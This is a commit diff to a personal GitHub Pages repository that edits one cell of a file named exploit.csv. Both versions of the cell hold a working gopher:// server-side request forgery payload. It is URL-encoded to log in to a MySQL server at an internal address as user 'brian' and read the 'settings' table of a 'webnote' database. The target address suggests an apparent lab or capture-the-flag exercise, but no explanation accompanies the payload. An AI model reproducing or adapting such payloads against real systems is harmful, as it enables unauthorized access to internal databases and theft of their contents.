

Before and after one commit to LeKvND/lekvnd.github.io, a CSV file: exploit.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update exploit.csv

```diff
--- a/exploit.csv
+++ b/exploit.csv
-C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%25%00%00%00%03%75%73%65%20%77%65%62%6e%6f%74%65%3b%20%53%45%4c%45%43%54%20%2a%20%46%52%4f%4d%20%73%65%74%74%69%6e%67%73%3b%01%00%00%00%01
+C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%24%00%00%00%03%75%73%65%20%77%65%62%6e%6f%74%65%3b%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%73%65%74%74%69%6e%67%73%3b%01%00%00%00%01
```
